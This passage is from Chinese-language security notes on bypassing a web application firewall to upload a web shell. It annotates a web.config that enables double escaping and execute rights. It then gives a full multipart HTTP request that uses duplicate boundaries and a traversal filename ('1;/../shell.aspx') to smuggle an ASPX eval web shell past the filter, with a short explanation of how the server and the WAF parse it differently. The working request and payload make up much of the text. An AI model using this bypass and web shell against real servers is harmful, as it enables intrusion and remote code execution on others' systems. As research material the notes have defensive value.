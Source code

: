 ```request
    <system.webServer> 
        <security> 
            <requestFiltering allowDoubleEscaping="true" /> 
        </security> 
        <handlers accessPolicy="Read, Execute" /> 
    </system.webServer> 
</configuration> 
--x--
```
> (1) `<requestFiltering allowDoubleEscaping="true" />`: 啟用雙重編碼（例如 %252E 會被解碼成 %2E 再解碼成 .），可繞過 URL 過濾規則。
> (2) `<handlers accessPolicy="Read, Execute" />`: 設定 Server 允許執行檔案的權限，可能上傳執行惡意腳本。


3. 上傳完整 Web Shell: 403 WAF 阻擋
![image](https://hackmd.io/_uploads/Hy-2PSa4kl.png)
![image](https://hackmd.io/_uploads/rJv1dSTVkl.png)

4. 使用上述 Double Boundary 的特性
```request
POST /upload.aspx HTTP/1.1 
Host: devco.re 
Content-Type: multipart/form-data; BOUNDARY=y:; boundary=x; 
Content-Length: (auto) 

--x 
Content-Disposition: form-data; name="x"; 

1 
--x 
--y: 
Content-Disposition: form-data; name="file"; x=filename="1;/../shell.aspx"; 

--x 
Content-Disposition: form-data; name="foo"; 
Content-Type: <%@ Page Language="Jscript"%><%eval(Request.Item["x"],"unsafe");%> 

--y:-- 
--x--
```
>[!Important]
> Server 世界觀：\
> ![image](https://hackmd.io/_uploads/Hk2A_rTVyx.png)
> WAF 世界觀：\
> ![image](https://hackmd.io/_uploads/Hyy-KS64Je.png)
> WAF 認為：
> 1. `--y:` 是 x form 中，沒 value 的 header
> 2. `Content-Disposition: form-data; name="file"; x=filename="1;/../shell.aspx";` 仍然是 x form 裡面的 header
> 3. Web Shell 在 Content-Type 不會被擋，可成功上傳 Shell 內容
